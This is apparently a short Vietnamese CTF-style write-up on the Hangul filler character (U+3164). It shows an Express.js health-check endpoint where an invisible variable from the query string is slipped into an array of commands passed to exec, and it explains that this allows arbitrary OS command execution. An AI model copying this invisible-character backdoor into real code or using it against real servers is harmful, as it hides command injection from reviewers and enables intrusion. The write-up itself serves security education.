

# hangful_filler
Aka Unicode Character “ㅤ” (U+3164)

```
app.get('/server_health', cors(corsOptions), async (req, res) => {
    var { timeout,ㅤ} = req.query;
    const checkCommands = [
        '/bin/bash /home/player/scripts/fileIntegrity.sh',
        '/bin/bash /home/player/scripts/isUp.sh localhost:80',
        '/bin/bash /home/player/scripts/isUp.sh localhost:3000',ㅤ
    ];

    var t = 0;
    if (timeout != "") {
        t = parseInt(t);
    }

    try {
        output = ""
        await Promise.all(checkCommands.map(async (cmd) => {
            try {
                r = await exec(cmd, { timeout: t });
                output += r.stdout.trim() || r.stderr.trim();
            } catch (err) {
                output += "";
            }
            output += "\n"
        }));
        res.status(200);
        res.send(output.trim());
    } catch(e) {
        res.status(500);
        res.send('Server status : ERROR');
    }
});
```

Mình có thể thấy trong dòng ``var { timeout,ㅤ} = req.query;``, Nếu không đọc kĩ, mình sẽ lầm tưởng tham số ``timeout`` là tham số duy nhất được destruct từ ``req.query``,  nhưng thực tế là tồn tại thêm kí tự ``hangful_filler`` đó. kí tự unicode này đuợc JS đối xử như là 1 biến va chính điều đó đã làm thay đổi logic cả đoạn code.

Tận dụng điều đó, mình truyền kí tự đó như 1 tham số GET ở dạng được mã hóa URL để thực thi mã tùy ý. Và khi đó, mỗi phần tử trong mảng ``checkCommands``, cũng như tham số do mình cung cấp sẽ được pass vào hàm ``exec`` để thực thi các lệnh OS.

